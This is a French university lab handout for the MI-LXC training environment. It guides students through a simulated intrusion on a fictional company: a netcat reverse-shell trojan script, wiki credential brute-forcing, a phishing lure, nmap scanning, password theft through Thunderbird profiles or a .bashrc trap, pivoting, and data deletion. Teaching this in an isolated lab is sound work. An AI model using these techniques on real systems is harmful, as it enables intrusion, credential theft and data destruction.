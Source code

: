 # TP 1 : Intrusion

_François Lesueur ([francois.lesueur@insa-lyon.fr](mailto:francois.lesueur@insa-lyon.fr))_

Ce TP sera réalisé dans l'infrastructure MI-LXC, disponible [ici](https://github.com/flesueur/mi-lxc) (nécessite un Linux en root) ou dans la VM "debian-stretch" disponible en salle de TP (`/machines_virtuelles/secu_vms/master/debian-stretch.sh`)

Une fois l'environnement démarré, la seule machine à utiliser est évidemment celle du hacker (`./mi-lxc display hacker`).


Déroulement général
===================

Votre objectif est de détruire les informations internes de l'entreprise _Target_ (données comptables, base clients). Pour ce faire, vous travaillerez exclusivement sur la machine du hacker. Une première reconnaissance vous a amené à savoir que votre cible héberge un wiki sur `http://www.target.virt`. Vous devrez réaliser les étapes suivantes :

* Récupération d'une adresse mail interne sur le wiki
* Altération du wiki en y intégrant un cheval de Troie prêt à être téléchargé par un interne
* Manipulation du commercial pour lui faire installer ce cheval de Troie (via un téléchargement interne donc plus crédible qu'une pièce jointe)
* Utilisation du cheval de Troie pour scanner le réseau interne
* Pivot vers la machine hébergeant les données ciblées
* Transfert puis suppression des données comptables et de la base clients
* Profit $$$

Le fil proposé ne couvre bien sûr pas l'ensemble des possibilités mais vise à montrer la diversité des moyens qu'un attaquant peut mettre en œuvre.

Préparation du cheval de Troie
==============================

Pour contrôler la machine du commercial, nous allons créer puis transmettre un cheval de Troie. Notre but est d'obtenir un \emph{shell} sur la machine du commercial afin de l'utiliser comme pivot. Cependant, comme le firewall n'autorise pas les connexions vers l'intérieur de l'entreprise, nous allons plus spécifiquement envoyer un reverse-shell : c'est la machine du commercial qui initiera la connexion vers la machine du hacker.

Le code exemple suivant est disponible sur la machine du hacker (`~/tp/intrusion/trojan.sh`) :
```
#!/bin/bash
while [ 1 ]; do
	/bin/nc <IP Hacker> <Port Hacker> -q0 -e /bin/bash;
	sleep 1;
done
```

* Étudiez ce petit script, son fonctionnement, le programme nc (netcat). Pourquoi y a-t-il une boucle infinie ?
* Configurez et manipulez ce script en local pour ouvrir un reverse-shell avec vous-mêmes.



Altération du wiki
==================

Le wiki est accessible publiquement mais une authentification est nécessaire pour lire et écrire. Vous disposez dans le dossier `~/tp/intrusion` d'un script pour tenter de _bruteforcer_ l'authentification. Étudiez son fonctionnement puis tentez de découvrir un accès. À partir de cet accès, créez une page crédible (mise à jour, installation d'un logiciel, etc.), intégrant le `.sh` que vous aurez préparé comme reverse-shell.

Conseils : les comptes d'administration sont souvent root, admin ou administrator et des listes de mots de passe communs sont disponibles sur internet.


Corruption de la machine du commercial
======================================

Vous devez maintenant amener le commercial à exécuter votre cheval de Troie sur sa machine. Vous devez faire attention à envoyer un mail crédible, social-engineering, qui pousse le commercial à suivre les instructions. Dans un cas réel, il suffirait qu'un seul employé installe le cheval de Troie pour que l'attaque fonctionne

Appelez l'enseignant pour jouer le rôle du commercial, vérifiez le fonctionnement.


Scan du réseau interne
======================

Il vous faut maintenant explorer le réseau pour trouver votre cible. Le programme `nmap` est un scanner réseau, installé sur la machine du hacker mais bien sûr pas du commercial. Il faut donc le transférer pour l'exécuter depuis la machine du commercial. Nous pouvons utiliser netcat pour ce transfert (demandez si vous êtes curieux !) ou un serveur web sur la machine du hacker. Le dossier `/var/www/html` du hacker est partagé par un serveur web, le programme en ligne de commande `wget` peut être utilisé côté commercial pour télécharger depuis ce dossier.

Utilisez maintenant nmap sur la machine du commercial pour explorer le réseau interne : `nmap <adresse de réseau/masque>`. Dessinez un plan de réseau, les services ouverts, les logiciels utilisés, les sites accessibles. Soyez pertinent dans les adresses IP scannées, le scan est assez long.


Récupération d'un mot de passe valide
=====================================

Pour aller plus loin, vous aurez besoin d'un mot de passe valide sur le SI. Vous pouvez obtenir celui du commercial à partir de l'[analyse de son profil Thunderbird par exemple](https://github.com/unode/firefox_decrypt), en ajoutant un piège à son `.bashrc` lui demandant de retaper son mot de passe ou encore en intégrant la saisie lors du lancement du cheval de Troie.

Accès à la machine cible
========================

Pivotez vers la machine hébergeant les données ciblées. Vous pouvez ensuite utiliser la commande `find` avec les bons arguments pour trouver, sur cette machine cible, les fichiers sur lesquels vous pourriez avoir des droits en écriture.


Bonus
=====

Il existe un chemin d'attaque, qui sera plus difficile à contrôle côté firewall, qui rebondit par la machine `dev`...
